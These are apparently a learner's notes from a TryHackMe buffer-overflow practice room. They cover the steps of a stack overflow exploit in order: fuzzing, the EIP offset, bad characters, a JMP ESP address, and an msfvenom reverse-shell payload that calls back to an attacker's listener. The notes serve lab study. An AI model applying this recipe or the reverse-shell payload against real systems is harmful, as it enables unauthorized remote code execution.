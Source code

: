 # Link
- https://tryhackme.com/room/bufferoverflowprep

# Buffer Overflow Notes

## Fuzzing
- Trying to get the maximum length of strings that the server can handle with. In my case, the value was 2000

## Controlling EIP
- Find which byte represents the EIP
- Send a long message (to crash the server), but 4 in 4 chars are different
- Creating the payload:
    - `/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l MAX+400`
- Locate in EIP memory cell which 4 long string is storing
- String Hex: 6F43396E

## Find the index 
- Now that I have the String Hex, I'm going to use `pattern_offset` to find the index:
```bash
┌──(kali㉿kali)-[~/Desktop/CTFs/tryhackme/BufferOverflowPrep]
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 6F43396E 
[*] Exact match at offset 1978
```

## Checking EIP
- To check if the index is correct, I'm going to insert a lot of _AAAA_'s and in the position 1978 the sequence _BBBB_

## Find Bad Characters
- These caracters makes the program stopps, like a "\x00", "eof", and other things in computting
- To check these characters, I'm going to create a payload that have all the possible bytes, and if the ESP register points into some of these bytes, it is a Bad Character
- I'm goint to create a list of these bad characters
- Creating the array of characters with `bytearray(range(1,256))`
- ESP: 01A8FA30
- Using `mona`, it's possible to check which are the BadChars:
    - `!mona compare -f c:\mona\oscp\bytearray.bin -a 01A8FA30`
    - 00 07 08 2e 2f a0 a1
- Not all of them're Bad Chars. Bad chars corrupt the next char, so the bad chars are: 
    - 00 07 2e a0
- Removing them from the payload

## Without Bad Characters
- Reloading the payload without the bad chars to check if they disappear

## Finding a Jump Point
- Run mona command to find it:
    - `!mona jmp -r esp -cpb "\x00\x07\x2e\xa0"`
- Finding instructions that doesn't contain the bad characters and are _JMP_ instructions
- Jump Point: 625011AF
- Writing as bytes: \x62\x50\x11\xaf
- Writing backwards (little-endian system): \xaf\x11\x50\x62
- Making `retn = "\xaf\x11\x50\x62"`

## Creating the revshell payload
- `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.24.206 LPORT=4444 -b '\x00\x07\x2e\xa0' EXITFUNC=thread -f python`

## Prepend NOPs
- Creating space for storing the payload
- Using NOP

## Rev Shell
- After running the payload, with `netcat` active, I got a shell =D

